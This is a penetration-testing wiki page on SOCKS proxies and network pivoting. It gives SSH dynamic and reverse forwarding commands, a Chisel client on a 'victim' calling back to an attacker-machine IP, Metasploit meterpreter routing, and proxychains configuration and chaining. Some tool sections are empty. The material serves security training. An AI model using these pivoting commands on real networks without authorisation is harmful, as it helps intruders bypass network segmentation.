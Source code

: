 ```yaml
---
authors: ShutdownRepo
---
```


# 🛠️ SOCKS proxy

## Theory

SOCKS (SOCKet Secure) is a network protocol that allows users to route network traffic to a server on a client's behalf. SOCKS is between the application and the transport layer of the OSI model.

This is especially useful for penetration testing engagements where a target is hiding behind one or multiple firewalls. A compromised server connected to two networks can be used as a SOCKS proxy server to pivot from a network to another.

In short, a SOCKS proxy can relay TCP and UDP connections and hence help bypass network segmentation. It's sort a dynamic [port forwarding](port-forwarding.md) technique.

## Practice

There are two types of dynamic port forwarding used during penetration testing engagements.

* Dynamic port forwarding: tunnel the whole attacker's network traffic (instead of only one port) through a remote machine.
* Reverse dynamic port forwarding: tunnel the whole network traffic from a remote machine through the attacker's machine.

### Basic server setup

> [!TIP]
> While setting up port forwarding, it's important to remember that non-admin users can only open ports above 1024.

In practice, there are many ways to turn a controlled machine into a SOCKS proxy server.

::: tabs

=== SSH commands

One of the most easy is by relying on SSH, however, it requires to have an SSH server running on the controlled machine and a valid account. The tester needs to open an SSH connection to the machine that should be turned into a SOCKS proxy, and supply the `-D` option along with the port to use for tunneling. The command can also be used with `-N` option to make sure no command gets executed after the SSH session is opened.

```bash
ssh -N -D $PORT $CONTROLLED_TARGET
```

Once the ssh command exits successful (or once a session opens) the tester can then proceed to [the usage part](socks-proxy.md#usage). 

A reverse dynamic port forwarding can be also put in place to tunnel a machine's traffic through the attacker machine. It is implemented entirely in the client (i.e. the server does not need to be updated) ([since OpenSSH 7.6](https://www.openssh.com/txt/release-7.6)).

```bash
ssh -N -R $PORT $CONTROLLED_TARGET
```


=== Chisel

[Chisel](https://github.com/jpillora/chisel) is a standalone binary for pivoting on Linux and Windows systems.

Working on a server/client, the binary simply needs to be uploaded on the victim host and executed as server on the attacker machine.

```bash
# attacker
chisel server --reverse --socks5 -p $PORT

# victim
chisel client $ATTACKER_MACHINE_IP:$ATTACKER_MACHINE_PORT R:socks
```


=== SSH config




=== Metasploit

A meterpreter session can be taken advantage of by setting up a SOCKS proxy with the appropriate module.

The first steps consists in creating a route, from a meterpreter shell to the target

```bash
meterpreter > run autoroute -s 10.11.1.0/24
```

The session can then be put in background and, the SOCKS server can be created.

```bash
msf > use auxiliary/server/socks_proxy
msf > set SRVPORT $PORT
msf > set VERSION 4a
msf > run
```

=== Cobalt Strike

=== proxychains

=== 3proxy

=== plink

:::


### Basic client usage

Once the SOCKS proxy server is set up, network traffic can be tunneled through with [proxychains-ng](https://github.com/rofl0r/proxychains-ng) (C), a tool still maintained and more advanced based on the original [proxychains](https://github.com/haad/proxychains) (that is not maintained anymore). The port in use by the SOCKS proxy should be supplied in the configuration file (`/etc/proxychains.conf`) like in the following examples.

```bash
# type ip port [user pass]
socks5 192.168.67.78 1080 lamer secret
socks4 192.168.11.49 1080
http 192.168.89.33 8080 justu hidden
http 192.168.39.93 8080
```

### Chaining proxies

In certain scenarios, SOCKS proxies can be chained. This can easily be used with [proxychains](socks-proxy.md#client-usage). In the following example, SSH is used to turn compromised machines into SOCKS proxy servers.

![](<./assets/Chained dynamic port forwarding diagram.png>)

![](<./assets/Chained dynamic port forwarding commands SSH.png>)
Setting up the SOCKS proxy servers (with SSH){.caption}

![](<./assets/Chained dynamic port forwarding commands proxychains.png>)
Setting up the SOCKS proxy client (proxychains){.caption}

![](<./assets/Chained dynamic port forwarding commands SOCKS.png>)
Attacking the target through the chain of SOCKS proxies{.caption}
